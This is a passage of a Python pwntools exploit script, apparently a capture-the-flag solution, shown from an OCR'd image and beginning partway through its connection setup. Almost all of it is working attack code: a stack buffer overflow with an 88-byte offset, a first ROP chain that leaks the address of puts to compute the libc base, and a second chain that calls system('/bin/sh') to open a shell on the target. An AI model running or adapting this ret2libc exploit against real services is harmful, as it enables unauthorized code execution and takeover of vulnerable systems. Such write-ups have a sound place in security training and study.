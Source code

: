 ```python
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400753 # pop rdi ; ret
ppr = 0x0000000000400750 # pop r14 ; pop r15 ; ret

# elf, libc
puts_got = elf.got['puts']
puts_plt = elf.symbols['puts']
main = elf.symbols['main']

# rop1
offset = 88
payload = 'A'*offset
payload += p64(prdi) + p64(puts_got) + p64(puts_plt) + p64(main)

ru('./flag\n')
# debug()
sl(payload)

puts = u64(rc(6).ljust(8,'\0'))
info_addr('puts',puts)
libc_base = puts - libc.symbols['puts']
system = libc.symbols['system'] + libc_base
binsh = libc.search('/bin/sh').next() + libc_base
info_addr('system', system)
info_addr('binsh', binsh)

# rop2
payload2 = 'B'*offset
payload2 += p64(ppr) + p64(0)*2
payload2 += p64(prdi) + p64(binsh) + p64(system) + p64(main)
ru('./flag\n')
# debug()
sl(payload2)

# info_addr('tag',addr)
# log.warning('--------------')
```